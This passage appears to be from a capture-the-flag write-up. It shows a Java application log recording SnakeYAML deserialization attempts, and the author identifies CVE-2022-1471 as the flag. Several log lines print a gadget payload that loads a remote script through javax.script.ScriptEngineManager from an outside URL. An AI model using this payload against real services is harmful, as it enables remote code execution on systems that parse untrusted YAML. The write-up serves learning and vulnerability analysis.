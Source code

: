 ```
// application.log
2025-01-22 14:32:10 INFO [main] Starting application version 1.3.2.
2025-01-22 14:32:15 WARN [main] Deprecated configuration key detected: 'use_legacy_mode'.
2025-01-22 14:32:20 INFO [worker-1] Processing request ID: 1456
2025-01-22 14:32:30 INFO [worker-2] Successfully processed user data from endpoint /users/submit.
2025-01-22 14:32:45 ERROR [worker-3] NullPointerException: Attempted to access null object.

2025-01-22 14:34:12 ERROR [worker-6] org.yaml.snakeyaml.constructor.ConstructorException:
Exception in YAML deserialization: Unauthorized deserialization attempt detected.
Stacktrace:
java.lang.ClassNotFoundException: javax.script.ScriptEngineManager
    at org.yaml.snakeyaml.constructor.SafeConstructor$ConstructYamlObject.construct(SafeConstructor.java:460)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:182)
    at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
    at org.yaml.snakeyaml.Yaml.load(Yaml.java:429)

2025-01-22 14:35:00 INFO [worker-1] HTTP request received: POST /submit
2025-01-22 14:36:00 INFO [worker-2] File upload received from user: /tmp/user123/upload.txt
2025-01-22 14:37:15 WARN [worker-3] Disk usage nearing threshold: 80% used.

2025-01-22 14:38:00 INFO [worker-4] YAML processing request received:
!!com.example.ValidClass [key: "safe_value"]
2025-01-22 14:38:05 INFO [worker-4] YAML processed successfully.

2025-01-22 14:40:00 INFO [worker-5] YAML processing request received:
!!javax.script.ScriptEngineManager [!!java.net.URL ["http://safe-site.com/resource"]]
2025-01-22 14:40:05 INFO [worker-5] YAML processed successfully.

2025-01-22 14:41:00 INFO [worker-6] YAML processing request received from /process-yaml:
POST body included !!javax.script.ScriptEngineManager [!!java.net.URL ["http://bit.ly/3explt"]]
2025-01-22 14:41:05 ERROR [worker-6] org.yaml.snakeyaml.constructor.ConstructorException:
Exception in YAML deserialization: Unauthorized deserialization attempt detected.
Stacktrace:
java.lang.ClassNotFoundException: javax.script.ScriptEngineManager
    at org.yaml.snakeyaml.constructor.SafeConstructor$ConstructYamlObject.construct(SafeConstructor.java:460)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:182)
    at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
    at org.yaml.snakeyaml.Yaml.load(Yaml.java:429)
```

Doing a little bit of googling with the `process-yaml` and `javax.script.ScriptEngineManager`, I queried `POST body included !!javax.script.ScriptEngineManager CVE` and got a couple of results that references SnakeYAML but the CVE number is limited to 4 digits so I ended up looking adding SnakeYAML to the query and tested `CVE-2022-1471` which was the flag.

**Flag**: CTF{CVE-2022-1471}

## Lunar Light
---
Sometimes you need more than just moonlight to really see an image!
